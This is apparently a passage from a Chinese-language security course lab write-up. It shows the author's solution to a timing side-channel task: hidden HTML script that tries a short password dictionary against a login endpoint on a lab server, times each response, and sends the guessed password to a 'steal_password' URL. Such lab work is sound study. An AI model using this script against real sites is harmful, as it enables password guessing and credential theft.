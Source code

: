 ```html
```

### Password Extraction via Timing Attack

最后这个是要你改 gamma\_starter.html 来进行一次侧信道攻击。

这个 on error 我没用过，随便试了试，大概就下面这样吧。总之，记下用时，取那个最离谱的就行。

```html
<span style='display:none'>
  <img id='test'/>
  <script>
    var dictionary = [`password`, `123456`, `12345678`, `dragon`, `1234`, `qwerty`, `12345`];
    var index = 0, ans = -1, ti = 0;
    var test = document.getElementById(`test`);
    test.onerror = () => {
      var end = new Date();

      /* >>>> HINT: you might want to replace this line with something else. */
      console.log(`Try ${dictionary[index - 1]}: Time elapsed ${end-start}`);
      if (ti < end - start) {
        ti = end - start;
        ans = index - 1;
      }
      /* <<<<< */

      start = new Date();
      if (index < dictionary.length) {
        /* >>>> TODO: replace string with login GET request */
        test.src = `http://192.168.43.134:3000/get_login?username=userx&password=${dictionary[index]}`;
        /* <<<< */
      } else {
        /* >>>> TODO: analyze server's reponse times to guess the password for userx and send your guess to the server <<<<< */
        let xhr = new XMLHttpRequest();
        xhr.open("GET", `http://192.168.43.134:3000/steal_password?password=${dictionary[ans]}&timeElapsed=${ti}`);
        xhr.send();
      }
      index += 1;
    };
    var start = new Date();
    /* >>>> TODO: replace string with login GET request */
    test.src = `http://192.168.43.134:3000/get_login?username=userx&password=${dictionary[index]}`;
    /* <<<< */
    index += 1;
  </script>
</span>

```
